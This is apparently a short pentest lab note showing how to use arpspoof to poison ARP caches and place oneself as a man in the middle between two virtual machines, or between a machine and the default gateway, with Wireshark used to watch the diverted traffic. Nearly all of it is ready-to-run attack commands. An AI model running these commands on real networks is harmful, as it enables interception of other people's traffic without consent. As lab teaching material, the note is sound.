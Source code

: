 ```yaml
---
title: "Arpspoof Arp Cache Poisoning"
date: 2020-05-02T18:19:48+02:00
tags:
  - hacking
  - arp
  - spoof
  - pentest
---
```


Goal: tricking `arp` cache to redirect network traffic to us "Man in the middle".

- VM1: 192.168.1.244
- VM2: 192.168.1.145
- GW: 192.168.1.1

## Prerequisites

```sh
# Enable ip forwarding
sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
# Ensure arpspoof is avaailable
sudo apt install dsniff
```

## Listening to traffic between two VMs

```sh
# Checking arp table on VM1/VM2 allow to check IP/Mac
arp -a
# Start redirecting traffic from VM1 to VM2 to us
sudo arpspoof -i eth0 -t $VM1 $VM2
# Start redirecting traffic from VM2 to VM1 to us
sudo arpspoof -i eth0 -t $VM2 $VM1
# Checking arp table on VM1/VM2 allow to check IP/Mac
arp -a
# Using wireshark will allow to check/follow traffic
sudo whireshark
```

## Pretending to be the default gateway

```sh
# Checking arp table allow to check IP/Mac
arp -a
# Start redirecting traffic from VM1 to VM2 to us
sudo arpspoof -i eth0 -t $VM1 $GW
# Start redirecting traffic from VM2 to VM1 to us
sudo arpspoof -i eth0 -t $GW $VM1
# Using wireshark will allow to check/follow traffic
sudo whireshark
```
